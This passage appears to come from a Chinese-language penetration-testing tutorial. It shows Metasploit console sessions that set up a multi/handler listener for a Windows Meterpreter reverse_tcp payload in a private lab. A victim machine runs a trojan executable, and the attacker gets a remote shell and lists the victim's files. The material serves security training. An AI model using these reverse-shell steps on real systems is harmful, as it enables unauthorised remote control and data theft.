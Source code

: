   ```
   
   ```

3. 使用通用exploit模块(`exploit/multi/handler`)，并设置相关参数，开启监听

   ```
   msf5 payload(windows/meterpreter/reverse_tcp) > use exploit/multi/handler 
   [*] Using configured payload windows/meterpreter/reverse_tcp
   msf5 exploit(multi/handler) > show options 
   
   Module options (exploit/multi/handler):
   
      Name  Current Setting  Required  Description
      ----  ---------------  --------  -----------
   
   
   Payload options (windows/meterpreter/reverse_tcp):
   
      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.80.200   yes       The listen address (an interface may be specified)
      LPORT     4444             yes       The listen port
   
   
   Exploit target:
   
      Id  Name
      --  ----
      0   Wildcard Target
   
   
   msf5 exploit(multi/handler) > run
   
   [*] Started reverse TCP handler on 192.168.80.200:4444 
   ```

4. 目标机访问下载文件并运行，反弹shell到攻击机

   > 反弹shell的目录为木马所在的文件位置

   ```
   msf5 exploit(multi/handler) > run
   
   [*] Started reverse TCP handler on 192.168.80.200:4444 
   [*] Sending stage (176195 bytes) to 192.168.80.129
   [*] Meterpreter session 2 opened (192.168.80.200:4444 -> 192.168.80.129:49295) at 2020-09-21 06:13:29 -0400
   
   meterpreter > ls
   Listing: C:\Users\John\Downloads
   ================================
   
   Mode              Size   Type  Last modified              Name
   ----              ----   ----  -------------              ----
   100666/rw-rw-rw-  940    fil   2020-09-12 22:54:57 -0400  cacert.der
   100666/rw-rw-rw-  282    fil   2020-09-06 00:37:28 -0400  desktop.ini
   100777/rwxrwxrwx  73802  fil   2020-09-21 06:02:23 -0400  t.exe
   100777/rwxrwxrwx  73802  fil   2020-09-21 06:13:07 -0400  tt.exe
   
   meterpreter > 
   ```
